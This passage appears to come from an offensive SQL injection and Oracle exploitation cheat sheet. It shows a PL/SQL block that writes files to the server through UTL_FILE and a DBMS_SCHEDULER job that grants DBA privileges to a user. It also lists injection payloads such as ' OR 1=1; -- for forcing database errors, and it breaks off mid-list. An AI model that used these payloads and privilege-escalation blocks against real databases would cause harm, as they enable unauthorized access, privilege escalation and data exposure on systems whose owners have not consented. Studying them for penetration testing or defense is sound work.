 This uses Java stored procedures to execute system commands.

### UTL_FILE Package for File Access

```  
DECLARE  
   l_file UTL_FILE.FILE_TYPE;  
   l_text VARCHAR2(32767);  
BEGIN  
   l_file := UTL_FILE.FOPEN('DIRECTORY_NAME', 'output.txt', 'W');  
   UTL_FILE.PUT_LINE(l_file, 'Data from UTL_FILE');  
   UTL_FILE.FCLOSE(l_file);  
END;  
```

This technique uses the UTL_FILE package to write files to the server.

### DBMS_SCHEDULER for Job Execution

```  
BEGIN  
   DBMS_SCHEDULER.create_job(  
      job_name => 'job1',  
      job_type => 'PLSQL_BLOCK',  
      job_action => 'BEGIN EXECUTE IMMEDIATE ''GRANT DBA TO SCOTT''; END;',  
      start_date => SYSTIMESTAMP,  
      repeat_interval => NULL,  
      end_date => NULL,  
      enabled => TRUE  
   );  
END;  
```

This uses DBMS_SCHEDULER to execute jobs that can change database permissions.

## Techniques to Force Errors from Databases for SQL Injection

Forcing errors in databases can help reveal valuable information about the underlying SQL queries, database structure, and sometimes even the data itself. Here are some advanced techniques to force errors from various databases:

### 1. Syntax Errors

#### Classic Syntax Error

```  
' OR 1=1; --  
```

Introduce a deliberate syntax error to elicit an error message.

#### Unclosed Quotes

```  
' OR 'a'='a  
```
